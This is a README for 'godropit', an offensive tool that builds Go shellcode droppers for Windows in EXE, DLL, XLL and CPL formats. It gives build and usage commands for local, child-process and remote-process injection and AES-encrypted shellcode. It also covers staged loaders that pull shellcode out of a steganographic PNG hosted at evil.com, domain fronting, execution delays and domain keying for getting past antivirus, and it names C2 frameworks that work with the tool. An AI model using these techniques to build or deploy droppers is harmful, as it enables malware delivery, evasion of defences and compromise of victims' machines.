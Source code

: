 # godropit

Simple Dropper Automation tool just enough to automate using some common go payloads from the excellent examples of [Ne0nd0g](https://github.com/Ne0nd0g/go-shellcode), [GoPurple](https://github.com/sh4hin/GoPurple). It differs from these projects primarily in that it uses go [templates](https://pkg.go.dev/text/template) to generate the dropper code.

- [godropit](#godropit)
  - [Supported Functionality](#supported-functionality)
    - [Supported Formats](#supported-formats)
- [Install](#install)
- [Usage](#usage)
  - [Payload Types](#payload-types)
      - [Local](#local)
      - [Child](#child)
      - [Remote](#remote)
      - [Staged](#staged)
  - [Usage Tips](#usage-tips)
    - [Test Shellcode](#test-shellcode)
    - [Execution delays](#execution-delays)
    - [Domain Keying](#domain-keying)
- [Known Issues](#known-issues)
 
## Supported Functionality
* Domain keying
* Local, remote and child process execution methods.
* Automatic AES shellcode encryption
* Can also load exe's with go-donut, allowing exec of sliver-agent.exe etc. 
* Staged PNG Loader - hides encrypted shellcode inside a remote png. Supports domain fronting.

### Supported Formats
First and foremost godropit focuses on windows binary formats. It currently supports:
* Exe
* Dll
* Xll
* Cpl

Note: Xll and CPL are generated by the shared flag, all shared droppers include exports for xlls, cpls and common windows dll based attacks.

Future formats can be added on request.

# Install
To use godropit you will need to install go, as we'll need the go compiler to compile our droppers. You'll also want mingw-w64 for any payload using C, e.g. DLL droppers.

**On Linux**
```sh
sudo apt update && sudo apt install golang mingw-w64
git clone <THIS REPO>
go build -trimpath -ldflags="-w -s" -o godropit main.go && sudo cp godropit /usr/local/bin
```

**On Windows (untested)**
Install golang first. 
```cmd
choco install mingw-w64
go build -trimpath -ldflags="-w -s" -o godropit main.go
```

# Usage
[Example Usage](https://asciinema.org/a/Trd0aKJuNVbB6j4jPssbiYDuh)

Once downloaded it's fairly simple, you can either compile the binary and run it that way, or use it with "go run". Right now it only accepts baked in templates, but it will output the src to "-o /full/path/to/outputdir". This is where all the go source files will be placed, including encrypted shellcode, env variables used and go.mod/go.sum etc. Use flag --debug to keep these files after compilation, else godropit will tidy these away. 

**WARNING** Do not output to the godropit directory, doing so will break the droppers and they will NOT generate, because go will try to build godropit and your bin in one go. 

```sh
.\godropit new <local|child|remote> -i <exe/binfile> -n <outputfilename> -o <full path to output directory> -d <domainnamestring(wip)>
```

## Payload Types

#### Local

Local Payloads inject into the local process. 
**Note:** Because it exit's once complete, you can optionally specify `-l` to add an infinite for loop to keep the process open. 

```
godropit new local -i shellcode.bin -n mylocaldropper -o /path/to/outdir -l
```

#### Child

Child payloads spawn in a child process, which is started by the dropper manually (werfault.exe by default).
`--proc` and `--args` can be used to spawn a different process with arguments. Please watch the backslashes carefully, you may need to edit this in the .go file if your flag doesn't work.

```
godropit new child -i shellcode.bin -n childdropper -o /path/to/outdir --proc "c:\\windows\\system32\\notepad.exe" --args "whatever"
```

#### Remote

Remote payloads spawn in a process specified by `--pid` (werfault.exe by default).

```
godropit new remote -i shellcode.bin -n remotedropper -o /path/to/outdir -pid 1234
```

#### Staged

In addition to a stageless payload (the default), you can generate staged payloads. These are very similar to the other payloads, but it uses HTTP to grab your shellcode from a stego'd png. To use this function, you need to host your stego'd png somewhere the dropper can reach.
Below shows the local injection type, but staged and as a shared (-s) format.

```
godropit new local -i shellcode.bin -n mylocaldropper -o /path/to/outdir -l -s -u http://evil.com/test.png --img /path/to/imagefile.jpg/png
```
You can also specify the host header for domain fronting:
```
godropit new local -i shellcode.bin -n mylocaldropper -o /path/to/outdir -l -s -u http://evil.com/test.png --img /path/to/imagefile.jpg/png --host something.evildomain.com
```

**Notes about stego droppers:**

* The output file will always be a png regardless of input format and not all formats/images may work.
* Stagers don't necessarily save on file size unless you are using a particularly large exe or shellcode file. This is because the staged payload uses go libraries for TLS/HTTP etc. The unitended benefit is it might look more like a more legitimate go binary, as it includes more of the go stdlib. 
* Supports domain fronting, so you can send your request to a more legitimate looking domain (not super thoroughly tested).
* No proxy detection is currently implemented, use at your own risk.

I'd only recommend stego if you are unsure about the target env, and maybe want to include some checks against IP whitelists/sandbox analysis.

## Usage Tips
Below are some usage tips to get the most out of godropit.

### Test Shellcode
**-i flag**
If you are unsure about a dropper, or just want a quick visual test - specify CALC as your input filename and godropit will autofill with some x64 shellcode to pop calc.
This does accept exe files, and will use donut to create shellcode from them. Warning though, it'll be chonky.
### Execution delays
**-t flag**
This takes the time in seconds, and adds that as a delay prior to execution and decryption. Can be useful for distancing the exec of the binary from injection activity by a margin.
If not specified, this will only delay by 1 second. 

### Domain Keying
**-d flag**
Domain keying is supported, it will check both the go hostname (which often includes domain\\) and the USERDNSDOMAIN env var.
This uses strings.Contain() and is not case sensitive, so you can put as much or as little of the domname in to this.

There are plans to support more, but I suggest you write your own bespoke payloads for most scenarios - this is just for quick wins against simple AV.

# Known Issues

1. Sometimes you need to specify a full path, relative paths can lead to mixed results/errors.
2. Some of the droppers may not work, and some C2's the shellcode doesn't always play nice - e.g. sliver. However, cobalt and posh seem reliable.
3. In some circumstances payloads may not generate or need tweaking, unfortunately in these scenarios your best option is to re-run with --debug so you can modify and compile the godropit code yourself.

